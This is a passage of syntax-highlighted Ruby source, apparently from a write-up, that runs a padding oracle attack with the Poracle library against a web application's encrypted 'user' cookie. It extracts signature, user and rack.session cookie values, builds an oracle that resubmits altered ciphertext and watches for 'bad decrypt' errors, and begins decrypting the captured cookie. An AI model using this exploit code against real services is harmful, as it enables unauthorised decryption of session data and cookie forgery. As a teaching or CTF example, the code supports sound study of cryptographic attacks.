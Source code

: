   <span class="Statement">return</span> {
    <span class="rubySymbol">signature</span>: cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">signature=</span><span class="Special">(</span><span class="Special">[</span><span class="rubyRegexp">0-9a-f</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
    <span class="rubySymbol">user</span>:      cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">user=</span><span class="Special">(</span><span class="Special">[</span><span class="rubyRegexp">0-9a-f</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
    <span class="rubySymbol">session</span>:   cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">rack</span><span class="Special">\.</span><span class="rubyRegexp">session=</span><span class="Special">(</span><span class="Special">[^</span><span class="rubyRegexp">;</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
  }
<span class="Statement">end</span>

<span class="Comment"># Get the initial set of cookies</span>
<span class="rubyConstant">COOKIES</span> = get_cookies()

<span class="Comment"># This is the do_decrypt block - you'll have to change it depending on what your</span>
<span class="Comment"># service is expecting (eg, by adding cookies, making a POST request, etc)</span>
poracle = <span class="rubyConstant">Poracle</span>.new(<span class="rubyConstant">BLOCKSIZE</span>) <span class="Statement">do</span> |data|
  cookies = <span class="rubyConstant">COOKIES</span>.clone()
  cookies[<span class="rubySymbol">:</span><span class="rubySymbol">user</span>] = data.unpack(<span class="rubyStringDelimiter">&quot;</span><span class="String">H*</span><span class="rubyStringDelimiter">&quot;</span>).pop

  result = request(cookies)
  <span class="Comment">#result.parsed_response.force_encoding(&quot;ASCII-8BIT&quot;)</span>

  <span class="Comment"># Split the response and find any line containing error / exception / fail</span>
  <span class="Comment"># (case insensitive)</span>
  errors = result.parsed_response.split(<span class="rubyStringDelimiter">/</span><span class="Special">\n</span><span class="rubyStringDelimiter">/</span>).select { |l| l =~ <span class="rubyStringDelimiter">/</span><span class="rubyRegexp">bad decrypt</span><span class="rubyStringDelimiter">/i</span> }

  <span class="Comment"># Return true if there are zero errors</span>
  errors.empty?
<span class="Statement">end</span>

data = <span class="rubyConstant">COOKIES</span>[<span class="rubySymbol">:</span><span class="rubySymbol">user</span>]

<span class="rubyConstant">L</span>.info(<span class="rubyStringDelimiter">&quot;</span><span class="String">Trying to decrypt: %s</span><span class="rubyStringDelimiter">&quot;</span> % data)

<span class="Comment"># Convert to a binary string using pack</span>
data = [data].pack(<span class="rubyStringDelimiter">&quot;</span><span class="String">H*</span><span class="rubyStringDelimiter">&quot;</span>)
